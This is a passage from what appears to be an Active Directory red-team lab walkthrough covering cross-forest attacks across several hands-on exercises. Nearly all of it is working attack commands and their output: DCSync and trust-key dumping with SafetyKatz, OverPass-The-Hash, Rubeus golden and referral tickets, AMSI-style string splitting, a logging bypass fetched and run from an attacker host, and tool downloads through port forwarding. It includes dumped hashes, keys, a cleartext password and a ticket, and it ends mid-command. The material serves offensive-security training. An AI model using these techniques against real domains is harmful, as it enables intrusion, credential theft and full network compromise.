⚠️ If we try to access `production.local` from the session on `bastion.local` we will face the double hop issue, so we need to use OverPass-The-Hash for the administrator of `bastion.local`.

First, we will use the privileges of domain administrator of `techcorp.local` to extract credentials of domain administrator for `bastion.local`.

Use the below command in the command prompt that we used above.

```
C:\Windows\system32> echo %Pwn%

lsadump::dcsync

C:\Windows\system32> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:bastion\Administrator /domain:bastion.local" "exit"

[SNIP]

mimikatz(commandline) # lsadump::dcsync /user:bastion\Administrator /domain:bastion.local

[SNIP]

SAM Username         : Administrator 👤
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 7/12/2019 10:49:56 PM
Object Security ID   : S-1-5-21-284138346-1733301406-1958478260-500
Object Relative ID   : 500

[SNIP]

Credentials:
  Hash NTLM: f29207796c9e6829aa1882b7cccfa36d 🔑

[SNIP]

* Primary:Kerberos-Newer-Keys *
    Default Salt : BASTION-DCAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : a32d8d07a45e115fa499cf58a2d98ef5bf49717af58bc4961c94c3c95fc03292 🔑

[SNIP]
```

Run the below command from an elevated shell on the student VM to use OverPass-The-Hash and start a process with the privileges of domain administrator of `bastion.local`.

```
C:\Windows\system32> echo %Pwn%

asktgt

C:\Windows\system32> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /domain:bastion.local /user:administrator /aes256:a32d8d07a45e115fa499cf58a2d98ef5bf49717af58bc4961c94c3c95fc03292 /dc:bastion-dc.bastion.local /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

[SNIP]

[*] Action: Ask TGT

[SNIP]

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/bastion.local
  ServiceRealm             :  BASTION.LOCAL
  UserName                 :  administrator
  UserRealm                :  BASTION.LOCAL
  StartTime                :  4/30/2025 11:00:22 AM
  EndTime                  :  4/30/2025 9:00:22 PM
  RenewTill                :  5/7/2025 11:00:22 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  yPWydSoLJD6hDENFccakU96gbF1qs6OAt1MNClz3JlA=
  ASREP (key)              :  A32D8D07A45E115FA499CF58A2D98EF5BF49717AF58BC4961C94C3C95FC03292
```

In the new process, use the below commands to copy and use Invisi-Shell.

```
C:\Windows\system32> echo F | xcopy C:\AD\Tools\InviShell\InShellProf.dll \\bastion-dc.bastion.local\C$\Users\Public\InShellProf.dll /Y

[SNIP]

C:\Windows\system32> echo F | xcopy C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat \\bastion-dc.bastion.local\C$\Users\Public\RunWithRegistryNonAdmin.bat /Y

[SNIP]

C:\Windows\system32> winrs -r:bastion-dc.bastion.local cmd

Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Users\Administrator>
🚀

C:\Users\Administrator> set u

USERDNSDOMAIN=BASTION.LOCAL 🏛️
USERDOMAIN=BASTION
USERDOMAIN_ROAMINGPROFILE=BASTION
USERNAME=Administrator 👤
USERPROFILE=C:\Users\Administrator
```

```
C:\Users\Administrator> C:\Users\Public\RunWithRegistryNonAdmin.bat

[SNIP]
```

We are now ready to enumerate `production.local`.

Run the below commands on `bastion-dc`.

```
PS C:\Users\Administrator> Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined -eq $False)} -Server production.local

Direction               : Outbound 📌
DisallowTransivity      : False
DistinguishedName       : CN=bastion.local,CN=System,DC=production,DC=local
ForestTransitive        : True 🔗
IntraForest             : False
IsTreeParent            : False
IsTreeRoot              : False
Name                    : bastion.local
ObjectClass             : trustedDomain
ObjectGUID              : f6ebbca6-749d-4ee6-bb6d-d3bbb178fd02
SelectiveAuthentication : False
SIDFilteringForestAware : True 📌
SIDFilteringQuarantined : False
Source                  : DC=production,DC=local
Target                  : bastion.local 🏛️
TGTDelegation           : False
TrustAttributes         : 1096 📌
TrustedPolicy           :
TrustingPolicy          :
TrustType               : Uplevel
UplevelOnly             : False
UsesAESKeys             : False
UsesRC4Encryption       : False
```

So we now know that SID History is allowed for access from `bastion.local` to `production.local`.

Check the membership of Shadow Security Principals on `bastion.local`.

```
PS C:\Users\Administrator> Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name,member,msDS-ShadowPrincipalSid | fl

Name                    : Shadow Principal Configuration
member                  : {}
msDS-ShadowPrincipalSid :

Name                    : prodforest-ShadowEnterpriseAdmin 📌
member                  : {CN=Administrator 👤,CN=Users,DC=bastion,DC=local 🏛️}
msDS-ShadowPrincipalSid : S-1-5-21-1765907967-2493560013-34545785-519
```

So, the administrator of `bastion.local` is a member of the Shadow Security Principals which is mapped to the Enterprise Admins group of `production.local`. That is, the administrator of `bastion.local` has Enterprise Admin privileges on `production.local`.

Now, we can access the `production.local` DC as domain administrator of `bastion.local` from our current domain `us.techcorp.local`.

Note that `production.local` has no DNS entry or trust with our current domain `us.techcorp.local` and we need to use IP address of DC of `production.local` to access it.

Run the below command on the `bastion-dc` to get IP of `production.local` DC.

```
PS C:\Users\Administrator> Get-DnsServerZone -ZoneName production.local | fl *

MasterServers          : 192.168.102.1 🖥️
DistinguishedName      : DC=production.local,cn=MicrosoftDNS,DC=ForestDnsZones,DC=bastion,DC=local
IsAutoCreated          : False
IsDsIntegrated         : True
IsPaused               : False
IsReadOnly             : False
IsReverseLookupZone    : False
IsShutdown             : False
ZoneName               : production.local 🏛️
ZoneType               : Forwarder
DirectoryPartitionName : ForestDnsZones.bastion.local
ForwarderTimeout       : 3
ReplicationScope       : Forest
UseRecursion           : False
PSComputerName         :
CimClass               : root/Microsoft/Windows/DNS:DnsServerConditionalForwarderZone
CimInstanceProperties  : {DistinguishedName, IsAutoCreated, IsDsIntegrated, IsPaused...}
CimSystemProperties    : Microsoft.Management.Infrastructure.CimSystemProperties
```

⭐ To use PowerShell Remoting to connect to an IP address, we must modify the WSMan `TrustedHosts` property on the student VM.

Run the below command in an elevated PowerShell on the student VM.

```
PS C:\Windows\system32> Set-Item WSMan:\localhost\Client\TrustedHosts * -Force
```

⭐ Additionally, to connect to an IP address we have to use NTLM authentication.
Therefore, we need to run OverPass-The-Hash with NTLM hash and not AES keys of the domain administrator of `bastion.local`.

```
C:\Windows\system32> echo %Pwn%

sekurlsa::opassth

C:\Windows\system32> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:administrator /domain:bastion.local /ntlm:f29207796c9e6829aa1882b7cccfa36d /run:powershell.exe" "exit"

[SNIP]

mimikatz(commandline) # sekurlsa::opassth /user:administrator /domain:bastion.local /ntlm:f29207796c9e6829aa1882b7cccfa36d /run:powershell.exe

[SNIP]
```

In the new PowerShell session.

```
PS C:\Windows\system32> Enter-PSSession 192.168.102.1 -Authentication NegotiateWithImplicitCredential

[192.168.102.1]: PS C:\Users\Administrator.BASTION\Documents>
🚀

[192.168.102.1]: PS C:\Users\Administrator.BASTION\Documents> $env:username

Administrator 👤

[192.168.102.1]: PS C:\Users\Administrator.BASTION\Documents> $env:computername

PRODUCTION-DC 🖥️
```

---
---

## Cross-Forest Trust Account Abuse via CredSSP

### Lab: Hands-On #29

#### Tasks

- Using access to `production.local`, abuse the trust account to get access from the trusting forest `production.local` to the trusted forest `bastion.local`

#### Attack Path Diagram

```
[Forest#1: production.local] {DA access}
        │
(trusting to trusted: trust key abuse)
        │
        ▼
[Forest#2: bastion.local] {access via CIFS service}
```

#### Attack Path Steps

1. Gain DA access on `production.local`
2. Create a CredSSP PowerShell session to `production-dc`
3. Dump trust key for `bastion.local`
4. Generate a TGT for `PRODUCTION$` in `bastion.local`
5. Access CIFS share on `bastion.local` as a trusted domain machine account

#### Solution

- Using access to `production.local`, abuse the trust account to get access from the trusting forest `production.local` to the trusted forest `bastion.local`

We need to begin by compromising `production.local` as in the previous hands-on (#28).
To do so we leverage OverPass-The-Hash in an elevated PowerShell prompt with the NTLM hash.

```
C:\Windows\system32> echo %Pwn%

sekurlsa::opassth

C:\Windows\system32> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:administrator /domain:bastion.local /ntlm:f29207796c9e6829aa1882b7cccfa36d /run:powershell.exe" "exit"

[SNIP]

mimikatz(commandline) # sekurlsa::opassth /user:administrator /domain:bastion.local /ntlm:f29207796c9e6829aa1882b7cccfa36d /run:powershell.exe

[SNIP]

user    : administrator 👤
domain  : bastion.local 🏛️
program : powershell.exe
impers. : no
NTLM    : f29207796c9e6829aa1882b7cccfa36d

[SNIP]
```

Attempting access using winrs isn't possible for native cmd execution to leverage the Loader and `argsplit.bat` method, we can instead create a PSRemote session using `-Authentication NegotiateWithImplicitCredential` and leverage `Invoke-Mimi.ps1` to dump trust keys remotely.

Begin by creating a PSRemote session as before.

```
PS C:\Windows\system32> $sess = New-PSSession 192.168.102.1 -Authentication NegotiateWithImplicitCredential

PS C:\AD\Tools> Enter-PSSession -Session $sess

[192.168.102.1]: PS C:\Users\Administrator.BASTION\Documents>
🚀

[192.168.102.1]: PS C:\Users\Administrator.BASTION\Documents> $env:username

Administrator 👤

[192.168.102.1]: PS C:\Users\Administrator.BASTION\Documents> $env:computername

PRODUCTION-DC 🖥️
```

Enumerating the target root, we find an interesting folder named 'CredSSP'.

```
[192.168.102.1]: PS C:\Users\Administrator.BASTION\Documents> ls C:\

    Directory: C:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         3/6/2024   6:45 AM                CredSSP 📌
d-----        12/7/2020   3:02 AM                PerfLogs
d-r---         7/2/2024   4:42 AM                Program Files
d-----         7/3/2019  10:00 AM                Program Files (x86)
d-----         3/6/2024   4:45 AM                Transcripts
d-r---        7/14/2019   7:32 AM                Users
d-----         7/2/2024   4:42 AM                Windows
```

Analyzing the 'CredSSP' folder we find an interesting script named `TestCredSSP.ps1`. Viewing it's contents, we find cleartext credentials for `production\administrator` and functionality to test CredSSP authentication.

Note that `TestCredSSP.ps1` has been referred from: https://stackoverflow.com/questions/18969201/is-there-an-easy-way-to-check-if-credssp-is-enabled-on-a-systems.

```
[192.168.102.1]: PS C:\Users\Administrator.BASTION\Documents> ls C:\CredSSP

    Directory: C:\CredSSP

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         3/6/2024   6:45 AM           1184 TestCredSSP.ps1

[192.168.102.1]: PS C:\Users\Administrator.BASTION\Documents> gc C:\CredSSP\TestCredSSP.ps1

function Get-WSManCredSSPState
{
  $res = [pscustomobject]@{DelegateTo = @(); ReceiveFromRemote = $false}

  $wsmTypes = [ordered]@{}
  (gcm Get-WSManCredSSP).ImplementingType.Assembly.ExportedTypes `
  | %{$wsmTypes[$_.Name] = $_}

  $wmc = new-object $wsmTypes.WSManClass.FullName
  $wms = $wsmTypes.IWSManEx.GetMethod('CreateSession').Invoke($wmc, @($null,0,$null))
  $cli = $wsmTypes.IWSManSession.GetMethod('Get').Invoke($wms, @("winrm/config/client/auth", 0))
  $res.ReceiveFromRemote = [bool]([xml]$cli).Auth.CredSSP

  $afcPath = 'HKLM:\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowFreshCredentials'
  if (test-path $afcPath)
  {
    $afc = gi $afcPath
    $res.DelegateTo = $afc.GetValueNames() | sls '^\d+$' | %{$afc.GetValue($_)}
  }
  return $res
}

$password = ConvertTo-SecureString 'ProductivityMatters@2048Gigs' 🔑 -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential('production\administrator' 👤, $Password)
$session = New-PSSession -cn production-dc.production.local -Credential $credential -Authentication Credssp
Invoke-Command -Session $session -ScriptBlock ${Function:Get-WSManCredSSPState}
```

⭐ Let's enumerate to check if CredSSP has been configured on the target.
Use the native `Get-WSManCredSSP` cmdlet to do so and exit the session.
Note that CredSSP has to be enabled on the server side using the following command: `Enable-WSManCredSSP -Role Server`.

```
[192.168.102.1]: PS C:\Users\Administrator.BASTION\Documents> Get-WSManCredSSP

The machine is not configured to allow delegating fresh credentials.
This computer is configured to receive credentials from a remote client computer.

[192.168.102.1]: PS C:\Users\Administrator.BASTION\Documents> exit
```

Since CredSSP has been setup on the target we can check to see if the CredSSP client is setup locally on our student VM to gain a PSRemote session onto `production-dc` bypassing the Kerberos double hop.

On our student VM, open local group policy (`gpedit.msc`), navigate to: Computer Configuration > Administrative Templates > System > Credentials Delegation.
Double-click 'Allow delegating fresh credentials', select 'Enabled' and click 'Show…'.
An entry for the target CredSSP server SPN `production-dc` exists: `WSMAN\Production-DC.production.local`.



This is an entry to leverage CredSSP with winrm with our machine acting as a client.



Finally check settings using PowerShell (admin) to see if CredSSP client authentication and Trusted Hosts are set, we find that they are enabled and configured as follows.

```
PS C:\Windows\system32> Get-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\WinRM\Client" -Name "AllowCredSSP"

AllowCredSSP : 1 📌
PSPath       : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\WinRM\Client
PSParentPath : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\WinRM
PSChildName  : Client
PSDrive      : HKLM
PSProvider   : Microsoft.PowerShell.Core\Registry

PS C:\Windows\system32> Get-Item WSMan:\localhost\Client\TrustedHosts

   WSManConfig: Microsoft.WSMan.Management\WSMan::localhost\Client

Type            Name                           SourceOfValue   Value
----            ----                           -------------   -----
System.String   TrustedHosts                   GPO 📌          *
```

These are all the prerequisites required to create a CredSSP session.

⭐ Attempt to recreate another CredSSP session named `$session` with explicit credentials to avoid the Kerberos double hop issue.

In the PSRemote session `$session` make sure to host and run `sbloggingbypass.txt` to bypass script block logging.

```
PS C:\Windows\system32> $password = ConvertTo-SecureString 'ProductivityMatters@2048Gigs' -AsPlainText -Force

PS C:\Windows\system32> $credential = New-Object System.Management.Automation.PSCredential('production\administrator', $Password)

PS C:\Windows\system32> $session = New-PSSession -cn production-dc.production.local -Credential $credential -Authentication Credssp

PS C:\Windows\system32> Enter-PSSession -Session $session

[production-dc.production.local]: PS C:\Users\Administrator\Documents>
🚀

[production-dc.production.local]: PS C:\Users\Administrator\Documents> $env:username

Administrator 👤

[production-dc.production.local]: PS C:\Users\Administrator\Documents> $env:computername

PRODUCTION-DC 🖥️
```

```
[production-dc.production.local]: PS C:\Users\Administrator\Documents> iex (iwr -UseBasicParsing http://192.168.100.51/sbloggingbypass.txt)

[production-dc.production.local]: PS C:\Users\Administrator\Documents> netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.51

[production-dc.production.local]: PS C:\Users\Administrator\Documents> wget 192.168.100.51/Loader.exe -o C:\Users\Public\Loader.exe
```

We can now use this session `$session` to dump LSASS.

⭐ Note that the execution is performed under PowerShell rather than native cmd here to leverage CredSSP and bypass double hop issues.

Like `argsplit.bat`, we can split commands as PowerShell variables too.

```
[production-dc.production.local]: PS C:\Users\Administrator\Documents>

$z="t"
$y="s"
$x="u"
$w="r"
$v="t"
$u=":"
$t=":"
$s="p"
$r="m"
$q="u"
$p="d"
$o="a"
$n="s"
$m="l"
$Pwn=$m + $n + $o + $p + $q + $r + $s + $t + $u + $v + $w + $x + $y + $z
```

We need to extract the trust key `[out]` for `bastion-dc`.

```
[production-dc.production.local]: PS C:\Users\Administrator\Documents> $Pwn

lsadump::trust

[production-dc.production.local]: PS C:\Users\Administrator\Documents> C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "$Pwn /patch" "exit"

[SNIP]

mimikatz(commandline) # lsadump::trust /patch

[SNIP]

Current domain: PRODUCTION.LOCAL (PRODUCTION / S-1-5-21-1765907967-2493560013-34545785)

[SNIP]

Domain: BASTION.LOCAL 🏛️ (BASTION / S-1-5-21-284138346-1733301406-1958478260)

 [  In ] PRODUCTION.LOCAL -> BASTION.LOCAL

 [ Out ] BASTION.LOCAL -> PRODUCTION.LOCAL 🔗
    * 5/1/2025 10:06:43 PM - CLEAR   - b7 4a 04 1e f9 7b 0c 22 cd 87 9f 1d a4 45 a0 25 7a ca a3 1e fa 32 27 9d e7 54 db bf 7b d6 08 0d f1 b8 96 44 04 03 47 c4 50 ce 95 75 b7 cc f9 05 40 70 a4 6f d4 42 9a d7 f7 74 b2 20 7e 3a 76 d7 af ee bc 60 de eb bf 6f a3 0c 39 f3 40 37 0e f6 15 29 b3 20 e9 47 0b d1 51 31 a3 45 e1 f4 5d 21 e9 7d 62 88 b5 29 51 02 63 52 9a 10 e5 53 22 71 54 0b ec 6f 6f 5b 30 4c 8b be d9 c2 62 6a 07 52 74 c8 67 49 1b 1c 23 d7 9e d6 9d 58 bb 19 dd b4 6d a3 e1 de ca 6a 7b 6a 7e 2b 45 92 04 27 a4 e6 b5 1b 99 21 80 4f ac 18 e6 cc 08 31 ad 3e d5 93 de 5c a1 32 52 0a 20 7b cb bd 46 9f c6 10 e8 de 2b cf b8 d8 3c cf 87 fa d4 3b e5 bb bb 7b 92 58 cf 2f 3d bd 2e e2 19 8d eb 68 37 40 a1 2c 19 ea ad 28 e7 82 12 2d 1a ec 7a be a4 99 bd a9 30 f9
        * aes256_hmac       aa8ceeb8dc6c3ea56f34bbdac828ae073ad8c3119f0753717afae03d94fd92c1
        * aes128_hmac       92af6a132691dd0aa671f1aff4047e85
        * rc4_hmac_nt       66044431b997f801aa8e252f938a4a47 🔑

[SNIP]

[production-dc.production.local]: PS C:\Users\Administrator\Documents> exit
```

Finally, enter the PSRemote session and leverage Rubeus with this trust key to get a usable TGT as the domain user `PRODUCTION$` in the `bastion` domain.

```
PS C:\Windows\system32> Enter-PSSession -Session $session

[production-dc.production.local]: PS C:\Users\Administrator\Documents>

$z="t"
$y="g"
$x="t"
$w="k"
$v="s"
$u="a"
$Pwn=$u + $v + $w + $x + $y + $z

[production-dc.production.local]: PS C:\Users\Administrator\Documents> $Pwn

asktgt

[production-dc.production.local]: PS C:\Users\Administrator\Documents> C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args $Pwn /user:PRODUCTION$ /domain:BASTION.LOCAL /rc4:66044431b997f801aa8e252f938a4a47 /dc:Bastion-DC.BASTION.LOCAL /nowrap /ptt

[SNIP]

[*] Action: Ask TGT

[SNIP]

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/BASTION.LOCAL
  ServiceRealm             :  BASTION.LOCAL
  UserName                 :  PRODUCTION$
  UserRealm                :  BASTION.LOCAL
  StartTime                :  5/2/2025 5:51:43 AM
  EndTime                  :  5/2/2025 3:51:43 PM
  RenewTill                :  5/9/2025 5:51:43 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  yagXzhIofJp9PVnjsg968Q==
  ASREP (key)              :  66044431B997F801AA8E252F938A4A47
```

Since CredSSP is used we can bypass the double hop for ticket imports/AD authentication and other actions that require some form of delegation.

```
[production-dc.production.local]: PS C:\Users\Administrator\Documents> klist

[SNIP]

Cached Tickets: (1) 🎟️

#0>     Client: PRODUCTION$ 🎭@ BASTION.LOCAL
        Server: krbtgt 📌/BASTION.LOCAL 🏛️ @ BASTION.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 5/2/2025 5:51:43 (local)
        End Time:   5/2/2025 15:51:43 (local)
        Renew Time: 5/9/2025 5:51:43 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

Finally, access a resource in the `bastion` domain to prove domain user rights in the domain.

```
[production-dc.production.local]: PS C:\Users\Administrator\Documents> ls \\bastion-dc.bastion.local\SYSVOL

    Directory: \\bastion-dc.bastion.local\SYSVOL 📁

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d----l        7/12/2019  10:51 PM                bastion.local
```

---
---

## Cross-Forest Trust Transitivity Bypass via Referral TGT

### Lab: Hands-On #30

#### Tasks

- Using DA access to `eu.local`, abuse the bidirectional non-transitive trust from `eu.local` to `us.techcorp.local` to gain unintended transitive access to the forest root `techcorp.local`

#### Attack Path Diagram

```
[Forest#1: eu.local] {DA access}
        │
(bidirectional non-transitive trust abuse)
        │
        ▼
[ChildDomain#2: us.techcorp.local] {TGT obtained via trust, then DA TGT issued locally}
        │
(child to root bidirectional trust abuse)
        │
        ▼
[Forest#2: techcorp.local] {access via CIFS service}
```

#### Attack Path Steps

1. Create a Golden Ticket with the privileges of domain administrator on `eu.local`
2. Since the trust isn't transitive, we cannot request a referral TGT from `eu.local` to `techcorp.local`
3. Request a referral TGT for `us.techcorp.local` from `eu.local` leveraging the bidirectional non-transitive trust
4. Request a "local" TGT (service realm is `us.techorp.local`)
5. And leverage it to gain a referral TGT from `us.techcorp.local` to `techcorp.local` leveraging the child to forest bidirectional trust
6. Use the TGT for `techcorp.local` to request a service ticket (TGS) for the target service (e.g., CIFS) on a host in `techcorp.local`

#### Solution

- Using DA access to `eu.local`, abuse the bidirectional non-transitive trust from `eu.local` to `us.techcorp.local` to gain unintended transitive access to the forest root `techcorp.local`

Run the below command on the student VM to get a Golden Ticket with the privileges of domain administrator on `eu.local`.

```
C:\Windows\system32> echo %Pwn%

golden

C:\Windows\system32> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:Administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /aes256:b3b88f9288b08707eab6d561fefe286c178359bda4d9ed9ea5cb2bd28540075d /nowrap /ptt

[SNIP]

[*] Action: Build TGT

[SNIP]

[*] Domain         : EU.LOCAL (EU) 🏛️
[*] SID            : S-1-5-21-3657428294-2017276338-1274645009
[*] UserId         : 500 👤
[*] Groups         : 520,512,513,519,518
[*] ServiceKey     : B3B88F9288B08707EAB6D561FEFE286C178359BDA4D9ED9EA5CB2BD28540075D
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] KDCKey         : B3B88F9288B08707EAB6D561FEFE286C178359BDA4D9ED9EA5CB2BD28540075D
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] Service        : krbtgt
[*] Target         : eu.local

[SNIP]

[*] base64(ticket.kirbi):
      doIFVzCCBVOgAwIBBaEDAgEWooIEUDCCBExhggRIMIIERKADAgEFoQobCEVVLkxPQ0FMoh0wG6ADAgECoRQwEhsGa3JidGd0GwhldS5sb2NhbKOCBBAwggQMoAMCARKhAwIBA6KCA/4EggP6/zhIWdUUpEqcQGDIIhKAnnvUdck8Hgywu4xg9zL5JGXcRDcB0wq2ttb9iYwiE7F5AgupvGPAKIYaCSf2Cmp6qHbTx0dMMrMtlZqQ9ADI9gFemvDsI7hwML/WoSmilJjLkd4kOP+gybN2lnX6Bki4Lw06HcGx9VsfpWUd1T0DVCdIbU4J+7fP61A7cRX7+siiwzSfziAZ62pdiadoB5ZuljPYwqlHh2ZSmISkMHyVWQaHyBcmIcGrKA7hq0avFHsyNH9fBeWZJLwyj/furINRi3X1ez/x4ycC8kJGRIxdWHfJjUOYETNwE6TTyIGWQnK8oDvM4nGTfZme4aOxXGMYdyqQlOFP5N56AA8CjuHtU/HvIcskPp38zKrf6YtobLfTO5aiMvL8Z4Hu8ESwGi9ZrVwCpUJ7BUFGMYFfZBR+Ml+4J+fLBX5dCyH1YEzqPgQ9QWmunXoCGlAm4w+XpQWbWt50sfFFnfWSxj2EgyfXuQVWjv8vPbAbXHPioXqen2Fz1jLYZsTYPkyVoQgDwBkN1gbnyTQyEx07F1DkXgZGmvVw0m7GmKBWSeHocoQjPMllsobQ2Rxk6qkerElA24bOl3KMEBkCu49PF7e7/Q5mWr/IkNz0wF5ewuc6QioGqjCfRF5HgNtreBHGYyrehvX2k97SLL0JTu2Wkk5GINOXfjNot+uMLKt7aIpjAk5gDupjwKtk+4iCabNAzdKdepcl6zzsx5owpAFhJXcWI6C8UAVmi1+xVIpHFJLH7Kv8Q7HPFG4+ewwWAdzsP8oezPDVLm5iM8DtekqAG2LO/RlNYq7D6OJKpayOmU2rfVCGX3M+yXOIp4tZ0qOoI82ZAMnhdpqSUy2sAILb0+SlEG+NJ1uVrBIHvW7yNn6js/o96Fx+s5doue1Prmygdm63W2yPDKaTXEbMTFZc6QnD4bMFv3DcCb/6rkrGttrwUDJucTXsYkUotA1uk6nW6zS78st0be65qsqsIsy7Jjc+G5tXtMoJliGpY8u4S76eVUmvVoseUfHSCQNXCPqP/V9yirb4uRhXNiwqnE3op1frggbMvgnDx+ZZJyFYoh7VOzfxS5MWRx9jf8ljy5aVqf9VGusWY0C6zpKfwI+HckTFkHdNBit2BQ0szDWqwuwrM/SfXJFRtISu3ReTyGXJRMArlQv1Z4i3EX61pB0ZsbzcJsFq/6A4en4QWdovY80EePww/VpJnViaWtJvbbcHpuHlm2YEN8q3PwzLZk2HPFc6QAOs1exSU87kwOuSnwP39X4FEmsWTxH4emMO9MOIOGmCg+CdmJcEKVK6nx/E8D7Xm2PmHIQFNG74bP85bUmXYnTGMrxWzCRAIpsyTmH0LaOB8jCB76ADAgEAooHnBIHkfYHhMIHeoIHbMIHYMIHVoCswKaADAgESoSIEIGl+pptDLqoqdPaNR/A1nUsOEJdN6aprhiZo0BwPa8xVoQobCEVVLkxPQ0FMohowGKADAgEBoREwDxsNQWRtaW5pc3RyYXRvcqMHAwUAQOAAAKQRGA8yMDI1MDQyOTEzNDgyN1qlERgPMjAyNTA0MjkxMzQ4MjdaphEYDzIwMjUwNDI5MjM0ODI3WqcRGA8yMDI1MDUwNjEzNDgyN1qoChsIRVUuTE9DQUypHTAboAMCAQKhFDASGwZrcmJ0Z3QbCGV1LmxvY2Fs

[+] Ticket successfully imported!
```

Copy `Loader.exe` and enable port forwarding to download Rubeus in the memory on `eu-dc`.

Run the below commands in the above process where we injected the Golden Ticket for `eu.local` to gain a session on `eu-dc`.

```
C:\Windows\system32> echo F | xcopy C:\AD\Tools\Loader.exe \\eu-dc.eu.local\C$\Users\Public\Loader.exe /Y

[SNIP]

C:\Windows\system32> winrs -r:eu-dc.eu.local cmd

Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Users\Administrator>
🚀

C:\Users\Administrator> netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.51
```

Now using Rubeus in the `eu-dc` session, we can now request a referral TGT for `us.techcorp.local` from `eu.local` leveraging the bidirectional non-transitive trust.

Please use the ticket from the initial Golden Ticket command in the `/ticket` parameter.

```
C:\Users\Administrator> echo %Pwn%

asktgs

C:\Users\Administrator> C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /service:krbtgt/us.techcorp.local /dc:eu-dc.eu.local /nowrap /ticket:doIFVzCCBVOgAwIBBaEDAgEWooIEUDCCBExhggRIMIIERKADAgEFoQobCEVVLkxPQ0FMoh0wG6ADAgECoRQwEhsGa3JidGd0GwhldS5sb2NhbKOCBBAwggQMoAMCARKhAwIBA6KCA/4EggP6/zhIWdUUpEqcQGDIIhKAnnvUdck8Hgywu4xg9zL5JGXcRDcB0wq2ttb9iYwiE7F5AgupvGPAKIYaCSf2Cmp6qHbTx0dMMrMtlZqQ9ADI9gFemvDsI7hwML/WoSmilJjLkd4kOP+gybN2lnX6Bki4Lw06HcGx9VsfpWUd1T0DVCdIbU4J+7fP61A7cRX7+siiwzSfziAZ62pdiadoB5ZuljPYwqlHh2ZSmISkMHyVWQaHyBcmIcGrKA7hq0avFHsyNH9fBeWZJLwyj/furINRi3X1ez/x4ycC8kJGRIxdWHfJjUOYETNwE6TTyIGWQnK8oDvM4nGTfZme4aOxXGMYdyqQlOFP5N56AA8CjuHtU/HvIcskPp38zKrf6YtobLfTO5aiMvL8Z4Hu8ESwGi9ZrVwCpUJ7BUFGMYFfZBR+Ml+4J+fLBX5dCyH1YEzqPgQ9QWmunXoCGlAm4w+XpQWbWt50sfFFnfWSxj2EgyfXuQVWjv8vPbAbXHPioXqen2Fz1jLYZsTYPkyVoQgDwBkN1gbnyTQyEx07F1DkXgZGmvVw0m7GmKBWSeHocoQjPMllsobQ2Rxk6qkerElA24bOl3KMEBkCu49PF7e7/Q5mWr/IkNz0wF5ewuc6QioGqjCfRF5HgNtreBHGYyrehvX2k97SLL0JTu2Wkk5GINOXfjNot+uMLKt7aIpjAk5gDupjwKtk+4iCabNAzdKdepcl6zzsx5owpAFhJXcWI6C8UAVmi1+xVIpHFJLH7Kv8Q7HPFG4+ewwWAdzsP8oezPDVLm5iM8DtekqAG2LO/RlNYq7D6OJKpayOmU2rfVCGX3M+yXOIp4tZ0qOoI82ZAMnhdpqSUy2sAILb0+SlEG+NJ1uVrBIHvW7yNn6js/o96Fx+s5doue1Prmygdm63W2yPDKaTXEbMTFZc6QnD4bMFv3DcCb/6rkrGttrwUDJucTXsYkUotA1uk6nW6zS78st0be65qsqsIsy7Jjc+G5tXtMoJliGpY8u4S76eVUmvVoseUfHSCQNXCPqP/V9yirb4uRhXNiwqnE3op1frggbMvgnDx+ZZJyFYoh7VOzfxS5MWRx9jf8ljy5aVqf9VGusWY0C6zpKfwI+HckTFkHdNBit2BQ0szDWqwuwrM/SfXJFRtISu3ReTyGXJRMArlQv1Z4i3EX61pB0Zsbz